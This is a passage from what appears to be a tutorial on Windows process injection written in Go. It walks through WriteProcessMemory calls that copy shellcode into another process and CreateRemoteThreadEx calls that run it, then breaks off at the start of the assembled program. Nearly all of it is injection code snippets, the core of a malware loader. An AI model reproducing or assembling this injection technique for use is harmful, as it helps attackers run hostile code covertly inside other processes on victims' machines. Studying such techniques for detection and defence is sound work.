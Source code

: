 Then we use `WriteProcessMemory` call to write the shellcode into RW allocated process memory space

```go
func main(){
  ...

  WriteProcessMemory := kernel32.NewProc("WriteProcessMemory")

  WriteProcessMemory.Call(
    uintptr(procHandle), // Process handle
    addr, // VirtualAllocEx return value
    (uintptr)(unsafe.Pointer(&shellcode[0])),
    uintptr(len(shellcode)), // Shellcode length
  )
```

At this point we use `CreateRemoteThreadEx` call to create a new thread in the especified process which will finally execute the shellcode:

```go
func main(){
  ...

  CreateRemoteThreadEx := kernel32.NewProc("CreateRemoteThreadEx")

  CreateRemoteThreadEx.Call(
    uintptr(procHandle),
    0,
    0,
    addr,
    0,
    0,
    0,
  )
}
```

And finally we close the process handle using `CloseHandle` call:

```go
...

func main(){
  CloseHandle := kernel32.NewProc("CloseHandle")

  _, _, err := CloseHandle.Call(procHandle)
  if err != nil {
    log.Fatal(err)
  }
}
```

Now we put all pieces together and add more output info to create a more readable program

```go
package main

import (
  "os"
  "fmt"
  "log"
  "unsafe"
  "strconv"
  "io/ioutil"

  "golang.org/x/sys/windows"
)

```